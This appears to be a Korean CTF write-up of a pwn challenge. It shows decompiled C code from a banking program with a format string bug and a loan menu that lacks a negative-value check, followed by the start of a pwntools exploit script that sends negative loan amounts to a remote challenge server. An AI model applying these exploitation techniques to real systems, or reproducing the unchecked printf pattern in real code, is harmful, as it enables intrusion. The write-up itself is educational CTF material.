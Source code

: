 ```
    puts("The last one");
    fgets(&format, 6, stdin);
    printf("your last one : ");
    printf(&format);
    puts("Good Bye~!");
    exit(0);
  }
  return puts("wtf? Get out...!");
}
```

돈이 99999원보다 많으면 flag.txt를 읽어 변수에 저장하고, 그 변수의 주소값을 알려준다. 그리고 포맷스트링 버그가 발생하는 것으로 보아 그냥 포맷스트링 버그를 이용해서 플래그를 읽어오면 될 거 같았다.

문제는 돈을 어떻게 읽어오느냐 였는데, 보통 CTF에서 은행시스템이 나오면 음수를 이용해서 돈을 모으는 경우가 많았기 때문에 음수체크를 하는 지 보았다.

```
if ( v2 == 3 )
      {
        printf("you can loan max %d\n", loan_money);
        puts("How much?");
        __isoc99_scanf("%d", &v1);
        if ( v1 <= loan_money )
        {
          loan_money -= v1;
          money += v1;
          puts__();
          printf("money : %d\n", money);
          printf("loan money : %d\n", loan_money);
          puts__();
        }
        else
        {
          puts("No...!");
        }
      }
```

Loan 이라는 돈을 빌리는 메뉴에서 음수체크를 따로 하지 않는다는 것을 보았고, 이를 이용해 Integer underflow로 돈을 모은 뒤, 포맷스트링으로 슥슥삭삭 했다.

<ul><li>ex.py</li></ul>

```
from pwn import *

context.log_level = 'debug'
flag = ""

for i in range(1,12):
    p = remote("layer7.kr",12000)

    p.recv()
    p.sendline("5")

    p.recv()
    p.sendline("3")

    p.sendlineafter("much?\n","-100000")

    p.recv()
    p.sendline("3")

    p.sendlineafter("much?\n","-100000000000")

    p.recv()
    p.sendline("5")
```